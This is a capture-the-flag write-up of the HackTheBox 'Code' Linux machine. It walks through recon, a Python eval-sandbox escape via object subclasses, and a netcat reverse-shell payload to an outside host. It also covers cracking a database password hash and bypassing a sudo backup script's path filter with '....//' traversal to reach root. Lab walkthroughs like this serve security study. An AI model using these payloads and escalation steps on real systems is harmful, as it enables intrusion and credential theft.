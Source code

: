 ```yaml
---
title: Code
tags:
  - HackTheBox
  - Easy
  - Linux
  - Python-Scripting
  - Python-Eval-Protections
  - Code_Review
---
```

![](Pasted%20image%2020250322195910.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.62 code.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- code.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp   open  ssh
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  upnp
```

![](Pasted%20image%2020250322200235.png)

I created a new user:

![](Pasted%20image%2020250322200405.png)

## Weaponization

I'll try to get RCE by Breaking Python 3 eval protections. I found this awesome blog [netsec.expert](https://netsec.expert/posts/breaking-python3-eval-protections/).

Python has a lot of classes that exist for `object`, so we can know them by printing `[].__class__.__base__.__subclasses__()`:

![](Pasted%20image%2020250322224511.png)

Specifically, the class number 317 is [subprocess.Popen](https://docs.python.org/3/library/subprocess.html) which allows you to spawn new processes, connect to their input/output/error pipes, and obtain their return codes.

```shell
subprocess.run(_args_, _*_, _stdin=None_, _input=None_, _stdout=None_, _stderr=None_, _capture_output=False_, _shell=False_, _cwd=None_, _timeout=None_, _check=False_, _encoding=None_, _errors=None_, _text=None_, _env=None_, _universal_newlines=None_, _**other_popen_kwargs_)
```

We can use tha argument `_shell=True_` to spawn a reverse shell.
## Exploitation

I'll use the following payload to get a reverse shell:

```python
().__class__.__bases__[0].__subclasses__()[317](['rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.23 666 >/tmp/f'], shell=True)
```

![](Pasted%20image%2020250322224910.png)

### User flag

![](Pasted%20image%2020250322232453.png)

## Pivoting

I found a `database.db` inside `/home/app-production/app/instance`, which had a md5 credential of a user called `martin`:

![](Pasted%20image%2020250322225408.png)

Also got another user called `development` password's hash.

Then I checked both hashes in crackstation:

![](Pasted%20image%2020250322225533.png)

> Credentials: `martin:nafeelswordsmaster`

## Privilege Escalation

I checked the sudo vulnerability:

```shell
sudo -l

[redacted]
(ALL : ALL) NOPASSWD: /usr/bin/backy.sh
```

I got the code of the script:

```sh
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\\.\\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Basically the script takes the content of the `task.json` and then creates a backup of the content you specify, so I put this inside `task.json`:

```sh
{
  "destination": "/home/martin/backups/",
  "multiprocessing": true,
  "verbose_log": false,
  "directories_to_archive": [
    "/home/....//....//root"
  ]
}
```

- *NOTE: put `....//` because the script also removes `./`*

Then I executed the script:

```shell
sudo /usr/bin/backy.sh ~/backups/task.json
```

![](Pasted%20image%2020250322231704.png)

### Root flag

![](Pasted%20image%2020250322231813.png)

==Machine pwned!==